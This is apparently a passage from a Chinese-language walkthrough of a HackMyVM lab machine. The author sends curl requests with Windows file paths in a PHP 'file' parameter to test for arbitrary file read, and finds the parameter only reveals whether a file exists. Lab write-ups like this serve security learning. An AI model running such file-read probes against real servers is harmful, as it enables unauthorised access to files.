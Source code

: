 ```css

button:hover {
    background-color: #218838;
}

.output {
    margin-top: 20px;
    text-align: left;
}
```

根据提示可以看出 `index.php` 应该是会接受一个 `file` 参数
随便测试几下。看看存不存在任意文件读取
```Bash
┌──(root㉿kali)-[/home/kali/hmv/runas]
└─# curl 'http://192.168.56.20/index.php?file=C:\Users\Public\desktop.ini'
<!DOCTYPE html>
<html lang="tr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Nothing Here</title>
    <link rel="stylesheet" href="styles.css">
</head>
<body>
    <div class="container">
        <h1>There is no going back!</h1>
        <h2>?file=</h2>
        <div class="output">
            <pre></pre>        </div>
    </div>
</body>
</html>

┌──(root㉿kali)-[/home/kali/hmv/runas]
└─# curl http://192.168.56.20/index.php?file=C:\Users\Public\kjdaljdklajls
<!DOCTYPE html>
<html lang="tr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Nothing Here</title>
    <link rel="stylesheet" href="styles.css">
</head>
<body>
    <div class="container">
        <h1>There is no going back!</h1>
        <h2>?file=</h2>
        <div class="output">
            File not found!        </div>
    </div>
</body>
</html>

```
可以发现这个只能判断文件是否存在。
